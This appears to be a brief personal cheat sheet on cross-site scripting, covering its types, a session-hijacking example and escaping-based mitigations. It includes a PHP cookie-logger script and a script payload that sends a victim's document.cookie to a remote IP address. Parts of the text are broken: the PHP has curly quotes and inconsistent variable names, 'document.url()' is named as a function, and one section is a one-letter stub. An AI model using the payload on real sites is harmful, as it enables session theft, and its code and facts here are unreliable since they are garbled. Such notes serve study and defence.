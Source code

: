 # XSS

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```


## Exploitation
### Session Hijacking
- Cookie Stealer (PHP for Apache web server)
```PHP
<?php
$Cookie=$_GET[‘txt’];
$log=”Cookie=$cookie\r\n”;
$f=fopen(“log.txt”,”a”);
fwrite($f,$log);
?>
```
- XSS Payload
```javascript
<script>window.location=”http://192.168.1.16/cookie1.php?txt=” + document.cookie;</script>
```
### Fake Page
- g

### [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 
